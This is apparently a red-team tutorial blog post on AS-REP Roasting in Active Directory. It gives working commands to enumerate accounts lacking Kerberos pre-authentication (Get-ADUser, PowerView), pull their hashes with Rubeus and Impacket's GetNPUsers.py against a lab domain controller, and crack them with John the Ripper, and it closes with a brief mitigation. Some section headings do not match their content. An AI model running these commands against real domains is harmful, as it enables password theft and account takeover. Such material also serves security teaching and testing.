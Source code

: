 ```yaml
---
title:  "Kerberos attacks 2-AS-REP Roasting "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 2-AS-REP Roasting"
categories:
  - Red-Teaming
toc: true
---
```


## AS-REP roasting 
 * If an Active Directory user has pre-authentication disabled, a vulnerability is exposed which can allow an attacker to perform an offline bruteforce attack against that user’s password.
 * This attack is commonly known as AS-REP Roasting in reference to Authentication Service Requests, a part of the process of authentication with Kerberos.
 * An attacker who is able to find a user with pre-authentication disabled can request an AS-REP ticket for that user and this will contain data encrypted with the user’s password.

## AS-REP roasting attack consists of the following steps:
 * 1-Obtain access to a domain as an authenticated user.
 * 2-Use an LDAP filter or tools like PowerView’s Get-DomainUser feature to crawl the domain and identify user accounts with the Do not require Kerberos preauthentication  Property  enabled.
 * 3-Identify target account or accounts.
 * 4-Request a Kerberos  (TGT) from the KDC in the name of a target account. The KDC will respond with the TGT for the account, without requiring the account password as a pre-authentication.
 * 5-Using a tool like Wireshark, extract the user’s password hash from the AS-REP packet. It can be found in the enc-part section of the packet.
 * 6-Use a tool like HashCat or John the Ripper to extract a plaintext password from the captured hash.
## Terminology
```
KDC: Key Distribution Center # The trusted 3rd party / the Domain Controller
TGS: Ticket Granting Server  # A subset function of the KDC which issues service tickets
TGT: Ticket Granting Ticket  # A userbased ticket used to authenticate to the KDC
ST: Service Ticket           # Used to authenticate against services
SPN: Service Principal Name  #The name of a service on the network
```


##  enumerate User account with "Do not require pre-authentication"
```
Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```

<img src="/img/asrep/enum.png" alt="Getting-gz" width="1000" height="200"> 

```
Get-DomainUser -PreauthNotRequired -verbose| select name
```

<img src="/img/asrep/enum1.png" alt="Getting-gz" width="1000" height="200"> 

## ASREP Roasting with Impacket

```
Rubeus.exe asreproast
```

<img src="/img/asrep/rubeus.PNG" alt="Getting-gz" width="1000" height="200"> 

saved the extracted hash in the john crackable format inside a text file
```
Rubeus.exe asreproast /format:john /outfile:hash.txt
```

<img src="/img/asrep/save.png" alt="Getting-gz" width="1000" height="200"> 

## ASREP Roasting with ASREPRoast PowerShell Script




## ASREP Roasting with  GetUserSPNs.py

```
Import-Module .\powerview.ps1
Get-DomainUser | select name
```
<img src="/img/asrep/users.png" alt="Getting-gz" width="1000" height="200"> 

<img src="/img/asrep/users1.png" alt="Getting-gz" width="1000" height="200"> 
 
```
python3 GetNPUsers.py karim.net/ -usersfile  users.txt -dc-ip 192.168.128.140
```

<img src="/img/asrep/users10.png" alt="Getting-gz" width="1000" height="200"> 

```
python3 GetNPUsers.py karim.net/asrepuser -dc-ip 192.168.128.140
```

<img src="/img/asrep/kali.png" alt="Getting-gz" width="1000" height="200"> 
 
## crack hash with john
 
 ```
john tgt.txt -w=/usr/share/wordlists/rockyou.txt
```

<img src="/img/asrep/crack.ng" alt="Getting-gz" width="1000" height="200"> 

## AS-REP roasting Mitigation
* ensure that no users within the Active Directory domain have Pre-authentication disabled (it is enabled by default).

I finished part 2 in Kerberos attacks today waite me in the next part.


